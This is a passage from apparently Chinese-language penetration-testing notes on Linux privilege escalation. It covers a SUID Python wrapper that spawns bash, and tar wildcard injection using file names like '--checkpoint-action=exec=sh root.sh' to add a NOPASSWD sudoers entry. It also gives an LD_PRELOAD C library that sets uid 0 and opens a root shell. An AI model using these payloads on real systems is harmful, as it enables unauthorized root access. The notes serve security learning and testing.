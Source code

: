      import os
     import sys
     
     try: 
             os.system("/bin/bash")
     except:
             sys.exit()
     ```

5. chmod +s 文件添加suid权限

### 通配符提权（技术比较老）

1. 写入脚本
2. 利用命令中某些可利用执行脚本的选项，创建具有这些选项名称的文件

- tar提权

  ```shell
  echo 'echo "用户名 ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > root.sh
  echo "" > "--checkpoint-action=exec=sh root.sh"
  echo "" > --checkpoint=1
  ```

  首先需要root用户在root.sh这个自定脚本目录执行tar带参数的压缩命令，才可以触发。如果碰巧遇到了定时压缩文件可写目录的操作，可以一试。

  利用截图：![image-20220827124526103](https://raw.githubusercontent.com/lant34m/pic/main/image-20220827124526103.png)
  ![image-20220827124543668](https://raw.githubusercontent.com/lant34m/pic/main/image-20220827124543668.png)
  ![image-20220827124559823](https://raw.githubusercontent.com/lant34m/pic/main/image-20220827124559823.png)

- 类似的通配符还有`chown`和`rsync`

### 共享库提权

>Linux 程序通常使用动态链接的共享对象库。库包含已编译的代码或开发人员用来避免跨多个程序重写相同的代码段的其他数据。Linux 中存在两种类型的库：（`static libraries`由 .a 文件扩展名表示）和`dynamically linked shared object libraries`（由 .so 文件扩展名表示）。编译程序时，静态库成为程序的一部分，无法更改。但是，可以修改动态库以控制调用它们的程序的执行。
>
>有多种方法可以指定动态库的位置，因此系统将知道在程序执行时在哪里查找它们。这包括编译程序时的`-rpath`or`-rpath-link`标志，使用环境变量`LD_RUN_PATH`or `LD_LIBRARY_PATH`，将库放置在`/lib`or`/usr/lib`默认目录中，或者在`/etc/ld.so.conf`配置文件中指定包含库的另一个目录。
>
>此外，`LD_PRELOAD`环境变量可以在执行二进制文件之前加载库。此库中的函数优先于默认函数。

提权的先遣条件，被劫持的命令或程序必须具有较高的权限（以root运行、SUID或SUDO等）。同时在`/etc/sudoers`文件中需要定义`env_keep+=LD_PRELOAD`

1. 确认一个可以用高权限执行的程序或命令

2. 编写脚本，c语言等

   ```c
   #include <stdio.h>
   #include <sys/types.h>
   #include <stdlib.h>
   
   void _init() {
   unsetenv("LD_PRELOAD");
   setgid(0);
   setuid(0);
   system("/bin/bash");
   }
   ```
